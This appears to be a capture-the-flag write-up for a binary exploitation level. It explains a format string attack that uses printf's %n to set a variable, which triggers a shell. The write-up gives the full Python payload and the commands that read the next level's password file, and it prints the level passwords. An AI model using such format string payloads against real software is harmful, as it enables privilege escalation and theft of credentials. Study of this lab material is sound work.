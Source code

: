 # Level3

```bash
su level3 # 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Steps
This binary uses `fgets`, which is protected against **buffer overflow attacks**.   
It does a call to `/bin/sh` but only when `obj.m = 64`.    
```bash
obj.m address = 0x804988c
```

Thanks to `printf` we can perform a **format string attack**.    
- The `%n` modifier will write the number of printed characters at address pointed by its associated parameter.    
- We can specify which parameter to use for `%n` by including the `x$` modifier, `x+1` on this modifier will reach `4` bytes further up on the stack allowing us to reach inside our buffer.

```bash
python -c "print '\x08\x04\x98\x8c'[::-1] + 'A' * 60 + '%4\$n'" > /tmp/inj3
cat /tmp/inj3 - | ./level3
Wait what?!

cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

